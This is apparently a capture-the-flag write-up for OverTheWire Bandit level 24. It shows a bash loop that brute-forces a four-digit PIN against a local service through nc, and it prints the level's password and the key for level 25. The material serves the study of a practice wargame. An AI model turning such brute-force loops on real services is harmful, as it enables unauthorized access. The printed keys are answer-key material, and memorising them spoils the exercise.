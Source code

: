 ### Bandit Level 24

#### Solution
```bash
	ssh bandit24@bandit.labs.overthewire.org

	for x in 56{6..7}{0..9}; do
	  echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $x | nc 127.0.0.1 30002 | egrep -v  "Exiting|Wrong|I am|Correct!" | sed "s/The password of user bandit25 is //";
	  echo "Try $x"; 
	done

```
**Password**: *UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ*


##### Key for Level 25
```
	uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
